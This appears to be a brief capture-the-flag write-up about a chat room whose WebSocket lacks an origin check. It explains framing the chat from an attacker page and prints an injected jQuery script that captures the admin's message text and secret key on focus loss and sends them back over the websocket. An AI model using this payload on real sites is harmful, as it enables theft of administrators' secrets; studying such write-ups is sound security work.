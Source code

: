 The chat room had a vulnerability of not performing an origin check. This enabled us to include the chat frame in a page from
where we can control it's behaviour.
We first create a webpage with an iframe inside it that creates a websocket to connect to the chat.
Then using postMessage and the websocket, we inject the following code through a websocket on which the admin connects as well to send messages:
<script>
$( "#key" ).focusout(function() {
    var t = $('#text').val(); 
    var k = $('#key').val();
    ws.send(JSON.stringify({author: 'pwn3r', text: t + ' : ' + k}));
});
</script>

This captures the text and key values when the admin tries to post to the private messages page and send it back to us on the websocket in plain text.
The key value is the admin's secret key.
